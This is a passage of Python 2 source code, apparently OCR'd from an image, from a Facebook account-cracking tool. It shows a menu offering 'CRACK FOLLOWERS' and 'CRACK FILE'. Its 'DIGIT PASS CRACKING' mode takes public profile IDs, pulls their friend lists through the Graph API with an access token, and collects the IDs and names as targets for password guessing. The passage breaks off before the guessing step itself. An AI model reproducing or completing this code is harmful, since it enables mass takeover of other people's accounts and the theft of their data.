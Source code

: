 	print("\033[93;1m  [2] CRACK FOLLOWERS")

	print("\033[92;1m  [3] CRACK FILE")

	print("")

	crack_select()

def crack_select():

	select = raw_input("\033[92;1m  CHOOSE : ")

	id=[]

	oks=[]

	cps=[]

	if select =="1":

		os.system("clear")

		logo()

		print("")

		print("\t\033[93;1m  DIGIT PASS CRACKING")

		print("")

		try:

			id_limit = int(raw_input("\033[93;1m  ENTER LIMIT (\033[91;1m5 MAX\033[93;1m): \033[92;1m"))

			print("")

		except:id_limit=1

		for t in range(id_limit):

			t +=1

			idt = raw_input("\033[93;1m  INPUT PUBLIC ID (\033[92;1m%s\033[93;1m) : \033[92;1m"%(t))

			try:

				for i in requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token).json()["data"]:

					uid = i["id"].encode('utf-8')

					na = i["name"].encode('utf-8')

					id.append(uid+"|"+na)

			except KeyError:

				print("\033[91;1m  PRIVATE FRIEND LIST TRY ANOTHER ONE")

			print("\033[94;1m  TOTAL IDS  : \033[0;92m%s\033[0;97m"%(len(id)))

		time.sleep(3)

	elif select =="2":
